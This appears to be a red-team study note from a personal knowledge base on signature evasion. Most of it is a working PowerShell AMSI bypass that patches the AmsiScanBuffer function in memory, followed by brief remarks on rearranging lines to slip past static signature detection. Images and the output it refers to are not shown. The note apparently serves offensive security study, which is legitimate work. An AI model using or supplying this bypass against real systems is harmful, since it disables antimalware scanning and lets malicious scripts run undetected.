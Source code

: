 ```yaml
---
tags:
  - red-team/resource
date-created: 2025-07-23
dg-publish: true
---
```

~ [[Signature Evasion]]

## Static Code-Based Signature Code Block
---

```powershell
$MethodDefinition = "

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetModuleHandle(string lpModuleName);

    [DllImport(`"kernel32`")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
";

$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
$A = "AmsiScanBuffer"
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, $A);
[UInt32]$Size = 0x5;
[UInt32]$ProtectFlag = 0x40;
[UInt32]$OldProtectFlag = 0;
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag);
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3); 

[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);
```

### The problem and answer
---
Testing the given `.ps1` should show us the problematic code:

![[Signature Evasion Code Blocks.png]]

We only need to change lines after `$Kernel32 ...` line:

![[Signature Evasion Code Blocks-1.png]]
Output against AMSITrigger:
